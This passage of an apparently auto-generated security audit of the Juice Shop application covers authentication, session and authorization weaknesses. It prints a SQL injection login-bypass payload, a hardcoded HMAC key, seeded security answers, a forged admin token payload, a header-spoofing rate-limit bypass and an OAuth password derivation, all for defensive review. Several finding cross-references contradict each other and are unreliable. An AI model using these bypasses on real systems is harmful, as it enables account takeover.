<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/rest/2fa/setup</code></td><td>-</td><td>handler: <code>server.ts:464</code><br/><em>⚑ Review: auth/token endpoint</em></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/rest/2fa/status</code></td><td>-</td><td>handler: <code>server.ts:462</code><br/><em>⚑ Review: auth/token endpoint</em></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/rest/2fa/verify</code></td><td>-</td><td>handler: <code>server.ts:457</code><br/><em>⚑ Review: auth/token endpoint</em></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/rest/basket/:id/checkout</code></td><td>-</td><td>handler: <code>server.ts:603</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/​rest/​basket/​:​id/​coupon/​:​coupon</code></td><td>-</td><td>handler: <code>server.ts:604</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/rest/products/:id/reviews</code></td><td>-</td><td>handler: <code>server.ts:631</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/rest/products/:id/reviews</code></td><td>-</td><td>handler: <code>server.ts:632</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
</tbody>
</table>

_27 further entry point(s) in this category carry no linked finding and no elevated review signal, and are not listed individually (52 total). The complete route inventory is available in `.route-inventory.json` and, when exported, `pentest-tasks.yaml`._

---

## 7. Security Architecture

This chapter is organized by security-control category. The architecture section avoids artificial control IDs and finding-ID columns in overview tables. Findings are listed only where the affected control is described.

_[§7](#7-security-architecture) schema v2 (13-section control-category layout). Cataloged controls: 30 total - 1 adequate, 8 partial, 8 weak, 3 unsafe, 10 missing. Linked threats: 74._

**How to read the verdicts.** Every control category (and every sub-control below it) carries exactly one status. The two red verdicts do **not** mean the same thing - this is the distinction that decides what you have to do about a finding:

| Status | Meaning | What it asks of you |
|----------|------------------------------------|------------------------|
| 🟢 Adequate | Control is present and sound | Nothing - keep it |
| 🟡 Partial | Present, but with meaningful gaps | Close the gap |
| 🟠 Weak | Present, but has exploitable gaps | Strengthen it |
| 🔴 Unsafe | **Present and relied upon, but defeated /<br/>trivially bypassable** | **Fix the existing control** |
| 🔴 Missing | **Control was never built** | **Add the control** |
| - | Not applicable to this codebase | - |

So "🔴 Unsafe" on a control category does *not* mean the control is absent - it means the control exists but does not hold (e.g. an `MD5` password hash, a raw-SQL query path, a hardcoded signing key). "🔴 Missing" is reserved for controls that were never built (e.g. no Content-Security-Policy header).

### 7.1 Security Control Overview

<!-- §7.1 MECHANICAL-FROZEN — DO NOT EDIT (overview table is pregenerator-owned) -->

| Control category | Verdict | Main reason |
|----------------------|---------|------------------------------------|
| [7.2 Identity and Authentication Controls](#72-identity-and-authentication-controls) | 🔴 Unsafe | 10 routed findings; catalogued controls are<br/>present but defeated (e.g. Password-Based<br/>Authentication, TOTP / 2FA). |
| [7.3 Session and Token Controls](#73-session-and-token-controls) | 🟠 Weak | 2 routed findings; catalogued controls are<br/>weak (e.g. JWT Token Management, Session<br/>Expiration). |
| [7.4 Authorization Controls](#74-authorization-controls) | 🔴 Missing | 9 routed findings; required controls not in<br/>place (e.g. Role-Based Access Control,<br/>Object-Level Authorization (IDOR)). |
| [7.5 Query Construction and Data Access Controls](#75-query-construction-and-data-access-controls) | 🟠 Weak | 2 routed findings; catalogued controls are<br/>weak (e.g. Parameterized Queries / ORM). |
| [7.6 Input Boundary Validation Controls](#76-input-boundary-validation-controls) | 🟠 Weak | 1 routed finding; catalogued controls are<br/>weak (e.g. Server-Side Input Validation,<br/>File Upload Validation). |
| [7.7 Output Encoding and Rendering Controls](#77-output-encoding-and-rendering-controls) | 🟠 Weak | 3 routed findings; catalogued controls are<br/>weak (e.g. XSS Prevention). |
| [7.8 Browser and Cross-Origin Controls](#78-browser-and-cross-origin-controls) | 🔴 Missing | 1 routed finding; required controls not in<br/>place (e.g. Content Security Policy, CSRF<br/>Protection). |
| [7.9 Cryptography Secrets and Data Protection](#79-cryptography-secrets-and-data-protection) | 🔴 Missing | 4 routed findings; required controls not in<br/>place (e.g. Secret Management, Password<br/>Hashing). |
| [7.10 File Parser and Outbound Request Controls](#710-file-parser-and-outbound-request-controls) | 🔴 Missing | 4 routed findings; required controls not in<br/>place (e.g. Server-Side Request Forgery<br/>Prevention, XML/ZIP Parser Hardening). |
| [7.11 Operations Runtime and Supply Chain Controls](#711-operations-runtime-and-supply-chain-controls) | 🔴 Missing | 17 routed findings; required controls not in<br/>place (e.g. Dependency Integrity, CI/CD<br/>Pipeline Hardening). |
| [7.12 Real-time and Not Applicable Controls](#712-real-time-and-not-applicable-controls) | 🔴 Missing | Required controls not in place (e.g.<br/>WebSocket Authentication, LLM Prompt<br/>Injection Prevention). |
| [7.13 Defense-in-Depth Summary](#713-defense-in-depth-summary) | - | No controls or findings routed to this<br/>category. |

<!-- §7.1 MECHANICAL-FROZEN END -->

### 7.2 Identity and Authentication Controls

**Verdict:** 🔴 Unsafe - authentication flows are present across password login, OAuth, TOTP, and password reset, but each is defeated at the credential-verification or key-material level.

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [7.2.1 Threat Hypotheses Requiring Validation](#721-threat-hypotheses-requiring-validation)
- [7.2.2 Password-Based Authentication](#722-password-based-authentication)
- [7.2.3 TOTP / 2FA](#723-totp-2fa)
- [7.2.4 User Registration](#724-user-registration)
- [7.2.5 Password Reset](#725-password-reset)
- [7.2.6 Social Login](#726-social-login)

**Implemented controls:** SQL-based credential lookup in `routes/login.ts`, TOTP second-factor enrollment and verification via `routes/2fa/`, security-question password reset at `routes/resetPassword.ts`, Google OAuth adapter in `frontend/src/app/oauth/oauth.component.ts`.

**Assessment:** The authentication boundary is broken at two root locations: the login query is raw SQL vulnerable to injection, and the signing key for every resulting session token is hardcoded in source. All four authentication flows ultimately issue local JWTs signed with the same compromised key, so fixing any single flow leaves the signing boundary defeated. Session-token lifecycle (signing, validation, storage, revocation, expiry) is described in [§7.3 Session and Token Controls](#73-session-and-token-controls).

<!-- §7.2 AUTH-MECHANISMS-FROZEN — deterministic inventory, pregenerator-owned. DO NOT EDIT. -->
**Authentication mechanisms (at a glance).** Every authentication mechanism detected on the application, its effective status, where it is assessed, and its linked findings. Controls are catalogued by domain, so JWT/session handling is assessed under [§7.3 Session and Token Controls](#73-session-and-token-controls) and password hashing under [§7.9 Cryptography Secrets and Data Protection](#79-cryptography-secrets-and-data-protection).

| Mechanism | Status | Assessed in | Findings |
|----------------------|---------|-----------|------------------------------------------------|
| User registration | 🔴 Unsafe | [§7.2](#72-identity-and-authentication-controls) | 🟠 [F-012](#f-012) — Unauthenticated WebSocket Channel — `registerWebsocketEvents.ts:24`<br/>🟠 [F-035](#f-035) — Catastrophic-backtracking regex on client data — `registerWebsocketEvents.ts:46`<br/>🔴 [F-039](#f-039) — Sensitive Routes Registered Without Authentication Middleware — `server.ts:310`<br/>🟠 [F-046](#f-046) — Web3 state-changing endpoints registered without authentication — `server.ts:642`<br/>🟡 [F-064](#f-064) — No rate limiting or connection cap on — `registerWebsocketEvents.ts:21`<br/>🟢 [F-067](#f-067) — No audit logging of WebSocket events or state — `registerWebsocketEvents.ts:24` |
| Password login | 🔴 Unsafe | [§7.2](#72-identity-and-authentication-controls) | - |
| Password reset / change | 🔴 Unsafe | [§7.2](#72-identity-and-authentication-controls) | 🟠 [F-010](#f-010) — Security-question-based password reset enables — `routes/resetPassword.ts:35`<br/>🔴 [F-020](#f-020) — Hardcoded HMAC key guards knowledge-based password reset — `lib/insecurity.ts:44`<br/>🔴 [F-032](#f-032) — Reset-password rate limit keyed on spoofable forwarding header — `server.ts:346` |
| Password storage (hashing) | 🔴 Missing | [§7.9](#79-cryptography-secrets-and-data-protection) | 🔴 [F-009](#f-009) — Passwords stored as unsalted MD5 hashes — `models/user.ts:77` |
| JWT / bearer-token session | 🟠 Weak | [§7.3](#73-session-and-token-controls) | 🔴 [F-002](#f-002) — Hardcoded RSA JWT signing key in source — `lib/insecurity.ts:23`<br/>🔴 [F-003](#f-003) — Insecure JWT Verification — `lib/insecurity.ts:57`<br/>🔴 [F-008](#f-008) — Hardcoded RSA signing key enables offline JWT forgery — `lib/insecurity.ts:23`<br/>🟠 [F-031](#f-031) — JWT stored in non-httpOnly localStorage — `request.interceptor.ts:16`<br/>🟠 [F-037](#f-037) — No server-side token revocation; logout leaves JWT valid — `lib/insecurity.ts:72`<br/>🟠 [F-044](#f-044) — Admin authorization decided client-side from unverified JWT — `app.guard.ts:57` |
| Session-token storage | 🟠 High | [§7.3](#73-session-and-token-controls) | 🟠 [F-031](#f-031) — JWT stored in non-httpOnly localStorage — `request.interceptor.ts:16` |
| Multi-factor authentication (TOTP / 2FA) | 🟡 Partial | [§7.2](#72-identity-and-authentication-controls) | - |
| OAuth / OIDC federated login | 🔴 Unsafe | [§7.2](#72-identity-and-authentication-controls) | 🔴 [F-004](#f-004) — OAuth deriving account password from email enables auth — `oauth.component.ts:30`<br/>🟠 [F-030](#f-030) — OAuth access_token passed in URL fragment and query — `oauth.component.ts:28`<br/>🟡 [F-048](#f-048) — Long-Lived Publish Token Instead of OIDC — `release.yml:65` |

<!-- §7.2 AUTH-MECHANISMS-FROZEN END -->

#### 7.2.1 Threat Hypotheses Requiring Validation

_Architecture- and control-derived threats. Plausible but not yet source-to-sink proven; each entry needs a `validate-or-refute` pentest probe before it becomes a finding._

| ID | Hypothesis | Control Gap | Evidence | Validation |
|-------|----------------------|----------------------|--------|----------------------|
| HYP-001 | XSS exposure from weak output encoding | Template Autoescape, Output Encoding,<br/>Content Security Policy | _?_ | _pending validation objective_ |
| HYP-002 | SQL injection exposure from ad-hoc SQL<br/>construction | Parameterized Queries, ORM / Repository<br/>Layer | _?_ | _pending validation objective_ |
| HYP-003 | Broken Access Control exposure from<br/>inconsistent AuthZ | Centralised AuthZ Policy, Role / Scope<br/>Enforcement, Ownership Check | _?_ | _pending validation objective_ |
| HYP-004 | State-changing or management route without<br/>an authentication gate | Route Authentication Middleware, Server-Side<br/>Session Enforcement | _?_ | _pending validation objective_ |
| HYP-005 | Authenticated object-addressing route<br/>without an authorization gate (BOLA/IDOR<br/>surface) | Object-Level Ownership Check, Tenant Scoping | _?_ | _pending validation objective_ |
| HYP-006 | Broken input validation exposure | Schema Validation, Allowlist Validation | _?_ | _pending validation objective_ |

<a id="password-based-authentication"></a>

**Security assessment**

_Not assessed in detail; see the control overview in [§7.1](#71-security-control-overview)._

**Relevant findings**

- None identified for this control.
#### 7.2.2 Password-Based Authentication

**Status:** 🔴 Unsafe - the credential-verification query at `routes/login.ts:34` concatenates `req.body.email` and `req.body.password` into a raw SQL string, allowing authentication bypass via a single-quote payload.

Password login is the primary credential-verification flow for Juice Shop's local user accounts. `routes/login.ts` accepts `email` and `password` in the request body, hashes the password with `security.hash()`, and queries the Users table to match both values before issuing a session token.

The diagram shows the intended password login path from browser to JWT issuance:



**Security assessment**

The login query in `routes/login.ts:34` constructs a raw SQL string using template-literal interpolation of `req.body.email` and the `MD5` hash of `req.body.password`. Both the query structure and the credential hash are defeated: a payload of `' OR '1'='1` in the email field bypasses the credential check and returns the first user row (the seeded admin account). Even on the successful path, `security.hash()` at `lib/insecurity.ts` calls `crypto.createHash('md5')` with no salt - the stored credential is easily reversed from any rainbow table. TOTP is triggered only when `user.data.totpSecret !== ''`, but because the SQL injection returns a user row regardless of credential validity, accounts without TOTP are completely bypassed.

The raw SQL construction in the login route:

```ts
models.sequelize.query(
  `SELECT * FROM Users WHERE email = '${req.body.email || ''}' AND password = '${security.hash(req.body.password || '')}' AND deletedAt IS NULL`,
  { model: UserModel, plain: true }
)
```

**Relevant findings**

- 🔴 [F-003](#f-003) — SQL injection in the login query allows authentication bypass without a valid credential.
- 🔴 [F-004](#f-004) — SQL injection in the search route shares the same raw-query construction pattern.
- 🔴 [F-009](#f-009) — Unsalted MD5 password hashing means stored credentials are trivially reversible, defeating the password-based authentication boundary even before the SQL injection path.

<a id="totp-2fa"></a>
#### 7.2.3 TOTP / 2FA

**Status:** 🟡 Partial - TOTP enrollment and verification are implemented but are optional per account, so accounts without a registered TOTP secret receive no second-factor protection.

Two-factor authentication is available as an optional second factor using time-based one-time passwords (TOTP). When a user enrolls, a TOTP secret is stored on their account; subsequent logins that succeed at the password step trigger a `totp_token_required` response that the client must satisfy via `POST /rest/2fa/verify` before the full session JWT is issued.

The diagram shows the TOTP-enforced login path when a user account has enrolled a secret:



**Security assessment**

TOTP enrollment is voluntary - `login.ts:37` checks `user.data.totpSecret !== ''` and only enforces the second factor when a secret exists. Admin and high-privilege accounts are not required to enroll TOTP, leaving the most sensitive accounts protected only by the password flow (which is itself defeated by SQL injection). The TOTP verification logic itself was not found to be trivially bypassable in this assessment, but the value of the second factor is undermined by the SQL injection that bypasses the first factor entirely for non-TOTP accounts, and by the hardcoded RSA key that allows JWT forgery without touching the login flow at all.

**Relevant findings**

- 🔴 [F-003](#f-003) — SQL injection in the login query bypasses credential check before TOTP enforcement is reached.
- 🔴 [F-004](#f-004) — The same raw-SQL construction pattern appears in the search route, confirming the structural gap.
- 🔴 [F-009](#f-009) — Unsalted MD5 hashing weakens the password factor that precedes TOTP.

<a id="user-registration"></a>
#### 7.2.4 User Registration

**Status:** 🔴 Unsafe - `GET /api/Users` is accessible without authentication and returns the full user table including email addresses and hashed passwords.

Detected in scope: GET `/api/Users`

User registration accepts email, password, and an optional security question through the Angular registration form. Sequelize's `UserModel.create()` persists the account, hashing the password via `security.hash()` before storage. The `/api/Users` endpoint that backs registration data is also exposed as a Sequelize REST endpoint.

The diagram shows the intended registration flow:



**Security assessment**

`GET /api/Users` is mounted without an `isAuthorized()` middleware guard in `server.ts`, allowing any unauthenticated caller to retrieve the full user table. The endpoint returns hashed passwords (unsalted `MD5`), email addresses, and role values. The `user.role` column in `models/user.ts` is mass-assignable through the Sequelize model, meaning a registration POST can include `"role": "admin"` to self-elevate if the API does not explicitly exclude the field.

**Relevant findings**

- 🟠 [F-012](#f-012) — The `Socket.IO` WebSocket channel accepts connections without authentication, allowing unauthenticated event injection.
- 🟠 [F-035](#f-035) — A catastrophic-backtracking regex on WebSocket event data at `registerWebsocketEvents.ts:46` can exhaust the Node\.js event loop.
- 🔴 [F-039](#f-039) — Sensitive routes registered without authentication middleware at `server.ts:310`, including `GET /api/Users`.
- 🔴 [F-040](#f-040) — The `user.role` column is mass-assignable, allowing privilege escalation at registration.
- 🔴 [F-043](#f-043) — Unauthenticated access to the full user table exposes hashed credentials and email addresses.

<a id="password-reset"></a>
#### 7.2.5 Password Reset

**Status:** 🔴 Unsafe - the reset boundary relies solely on the answer to a self-chosen security question, which is HMAC'd with a hardcoded key (`pa4qacea4VK9t9nGv7yZtwmj` in `lib/insecurity.ts:44`) and not rate-limited meaningfully.

Detected in scope: POST `/rest/user/reset-password`

`POST /rest/user/reset-password` accepts `email`, `answer`, `new`, and `repeat` fields. `routes/resetPassword.ts` looks up the stored `SecurityAnswer` row for the given email, computes `security.hmac(answer)`, and compares it to the stored HMAC. A successful match allows an immediate password update with no out-of-band verification.

The diagram shows the intended single-step reset path:



**Security assessment**

Three independent weaknesses defeat this control. First, the security question answers are publicly known for the seeded demo accounts (e.g. `'Samuel'` for user Jim, `'West-2082'` for Bjoern), and the HMAC key used to store all answers is the same hardcoded string in `lib/insecurity.ts:44`. Second, the rate limit at `server.ts:343` keys on the `X-Forwarded-For` header (`keyGenerator: ({ headers, ip }) => headers['X-Forwarded-For'] ?? ip`), which an attacker controls; a spoofed header bypasses the per-IP cap entirely. Third, no email-delivered token or one-time link is involved - an attacker who knows the email address and can guess or enumerate the answer has a direct path to password takeover.

**Relevant findings**

- 🟠 [F-010](#f-010) — Security-question-based reset is trivially bypassed for accounts with publicly known answers.
- 🔴 [F-020](#f-020) — The HMAC key protecting security answers is hardcoded in `lib/insecurity.ts:44`, defeating the integrity of stored answers.
- 🔴 [F-032](#f-032) — The rate limit on `POST /rest/user/reset-password` is keyed on the spoofable `X-Forwarded-For` header at `server.ts:346`.
- 🟡 [F-054](#f-054) — No out-of-band verification (emailed token, SMS OTP) is required before the password is updated.

<a id="social-login"></a><a id="social-login-oauth-oidc"></a>
#### 7.2.6 Social Login

**Status:** 🔴 Unsafe - the OAuth flow derives the local account password deterministically from the user's email address, allowing any party who knows a user's email to set and use that password via the standard login flow.

Detected in scope: frontend/src/app/oauth

`oauth.component.ts` implements a frontend-only OAuth adapter. After receiving an access token from Google's redirect, it calls `userService.oauthLogin()` to fetch the user's Google profile (email), then derives a local password as `btoa(profile.email.split('').reverse().join(''))` and calls the standard local login endpoint.

The diagram shows how the OAuth adapter terminates in the local credential flow:



**Security assessment**

The password derived from the email address (`btoa(email.split('').reverse().join(''))`) is not secret - it is deterministic from the publicly observable email. Any caller who knows a victim's email can replicate the derivation and authenticate directly via `POST /rest/user/login` without going through the OAuth flow. The access token is also passed in the URL fragment and query string at `oauth.component.ts:28`, where it appears in server logs, referrer headers, and browser history. The `release.yml` CI workflow additionally uses a long-lived `NPM_TOKEN` publish secret rather than an OIDC federation token, widening the credential exposure surface.

**Relevant findings**

- 🔴 [F-004](#f-004) — Deterministic password derivation from email allows local-credential login for any OAuth-registered account.
- 🟠 [F-030](#f-030) — OAuth `access_token` passed in URL fragment and query string at `oauth.component.ts:28` leaks via referrer and server logs.
- 🟡 [F-048](#f-048) — `release.yml:65` uses a long-lived `NPM_TOKEN` secret instead of an OIDC federation token for npm publish.

### 7.3 Session and Token Controls

**Verdict:** 🟠 Weak - `RS256`-signed JWTs are issued and verified, but the signing key is hardcoded in source, tokens are stored in browser `localStorage`, logout does not invalidate the server-side token record, and expiry is set to 6 hours with no sliding renewal.

**Controls covered:**

- [7.3.1 JWT Token Management](#731-jwt-token-management)
- [7.3.2 Session Expiration](#732-session-expiration)

**Implemented controls:** `RS256` JWT issuance via `security.authorize()` in `lib/insecurity.ts`, `express-jwt` middleware for protected-route verification at `security.isAuthorized()`, in-memory `authenticatedUsers` map tracking active tokens, 6-hour token expiry set at issuance.

**Assessment:** This application uses a single locally-signed token format (commonly called JWT) for every authenticated session, regardless of the login flow in [§7.2](#72-identity-and-authentication-controls) that established it. The sub-sections below trace one token through its lifecycle: signing on issuance, validation on every protected request, storage in the browser, and time-based expiry. Token revocation is addressed as part of the JWT Token Management sub-section. The signing key is committed to the repository, which means every weakness in the lifecycle chain (storage in `localStorage`, no revocation, 6-hour window) compounds on a foundation that is already broken at the issuance step.

⚠ **Anti-pattern:** SPA without BFF

The session token lifecycle for this section:



<a id="jwt-token-management"></a>
#### 7.3.1 JWT Token Management

**Status:** 🟠 Weak - `RS256` signatures are used, but the private key is committed to source at `lib/insecurity.ts:23`, defeating the signature boundary; tokens are stored in `localStorage` where XSS can read them.

⚠ **Anti-pattern:** JWT in localStorage

`RS256`-signed JWTs are issued by `security.authorize()` in `lib/insecurity.ts` after a successful login. The payload carries `{id, email, role}` and is signed with the RSA private key embedded in `lib/insecurity.ts:23`. Protected routes apply `security.isAuthorized()`, which wraps `express-jwt` configured to verify against the public key at `encryptionkeys/jwt.pub`. The Angular `RequestInterceptor` (`request.interceptor.ts:13-16`) reads the token from `localStorage` and attaches it as a `Bearer` header on every outgoing API call.

**Security assessment**

Two structural weaknesses undermine this control:

- The RSA private key at `lib/insecurity.ts:23` is committed to the public repository. Any party with read access to the source can sign arbitrary payloads (`{id: 1, email: "admin@juice-sh.op", role: "admin"}`) that the server's public-key verifier accepts as valid.
- The token is stored in `localStorage` at `request.interceptor.ts:16`, making it readable by any JavaScript executing on the same origin. The persistent XSS sinks in [§7.7](#77-output-encoding-and-rendering-controls) (search-result `bypassSecurityTrustHtml`) can exfiltrate the token directly.

Moving token storage to an `HttpOnly; Secure; SameSite=Strict` cookie and loading the signing key from a runtime secret store (not source) are the two repairs that close both weaknesses.

**Relevant findings**

- 🟠 [F-031](#f-031) — JWT stored in `localStorage` (`request.interceptor.ts:16`) is readable by any same-origin JavaScript, including injected XSS payloads.
- 🟠 [F-037](#f-037) — Logout does not remove the token from the `authenticatedUsers` map; the token remains valid for the remainder of its 6-hour window.

<a id="session-expiration"></a>
#### 7.3.2 Session Expiration

**Status:** 🟠 Weak - tokens expire after 6 hours by `jwt.sign()` option, but there is no server-side revocation on logout, no sliding-window renewal, and no forced expiry on privilege change.

Session lifetime is enforced entirely through the `expiresIn: '6h'` parameter passed to `jwt.sign()` at `lib/insecurity.ts` (the `security.authorize()` helper). The `express-jwt` middleware rejects tokens whose `exp` claim is in the past. No additional server-side state is consulted to check whether a token has been revoked before its natural expiry.

**Security assessment**

Logout in the Angular SPA removes the token from `localStorage` but does not call any server-side invalidation endpoint. The `authenticatedUsers.tokenMap` in `lib/insecurity.ts` is an append-only in-memory map - there is no delete path triggered by logout. A token captured before logout (via XSS, network interception, or the hardcoded-key path) remains usable for up to 6 hours. Because the signing key is also committed to source, an attacker can mint new tokens with an arbitrary `exp` claim that the server will accept; the 6-hour window is only meaningful if the signing key is rotated out of band.

**Relevant findings**

- 🟠 [F-031](#f-031) — Token stored in `localStorage` survives browser-tab close and SPA logout, extending the exposure window to the full 6-hour JWT lifetime.
- 🟠 [F-037](#f-037) — No server-side revocation path exists; a captured token is valid until the `exp` claim lapses regardless of user logout.

### 7.4 Authorization Controls

**Verdict:** 🔴 Missing - route-level authorization is enforced only by client-side Angular guards; the API backend has no server-side role check or object-ownership check on most admin and data endpoints.

**Controls covered:**

- [7.4.1 Role-Based Access Control](#741-role-based-access-control)
- [7.4.2 Object-Level Authorization](#742-object-level-authorization)

**Implemented controls:** Angular `AdminGuard`, `AccountingGuard`, and `DeluxeGuard` in `frontend/src/app/app.guard.ts`; `security.isAuthorized()` middleware applied to basket and basket-item routes in `server.ts`; `user.role` column in `UserModel` carries `admin`, `customer`, `accounting`, and `deluxe` values.

**Assessment:** Authorization is enforced almost entirely in the Angular frontend. The guards in `app.guard.ts` decode the JWT from `localStorage` and check the `role` claim client-side - a direct API call bypasses every guard. Only a small set of routes (baskets, basket items) apply `isAuthorized()` middleware on the backend; no route applies a role check or object-ownership check beyond login presence.

<a id="role-based-access-control"></a>
#### 7.4.1 Role-Based Access Control

**Status:** 🟠 Weak - `user.role` is present in the JWT payload and in the `UserModel`, but role enforcement happens only in Angular guards (`app.guard.ts:54`) that are bypassed by direct API calls.

Juice Shop carries four user roles (`admin`, `customer`, `accounting`, `deluxe`) stored in the SQLite `Users.role` column and embedded in the JWT payload. The Angular application reads the `role` claim from the JWT via `LoginGuard.tokenDecode()` and routes admin traffic through `AdminGuard`, accounting traffic through `AccountingGuard`, and premium features through `DeluxeGuard`.

**Security assessment**

`AdminGuard.canActivate()` at `app.guard.ts:54` returns `true` when `payload.data.role === roles.admin` - a check performed entirely in the browser by decoding a JWT that is stored in `localStorage`. A direct HTTP call to `/api/Users` or `/rest/admin/application-configuration` bypasses the guard entirely and is answered by the Express backend with no role check. The `user.role` column is additionally mass-assignable via the Sequelize model at registration, allowing a crafted POST to self-assign `admin` without requiring a valid signing key.

**Relevant findings**

- 🔴 [F-007](#f-007) — Server-side routes expose admin functionality without any server-side role check; `AdminGuard` enforces access only in the browser.
- 🔴 [F-014](#f-014) — `GET /api/Users` returns the full user table to any authenticated (or unauthenticated — see 🔴 [F-039](#f-039) — Sensitive Routes Registered Without Authentication Middleware — `server.ts:310`) caller, regardless of role.
- 🟠 [F-024](#f-024) — The `user.role` field is mass-assignable on registration, allowing self-elevation to `admin`.

<a id="object-level-authorization"></a><a id="object-level-authorization-idor"></a>
#### 7.4.2 Object-Level Authorization

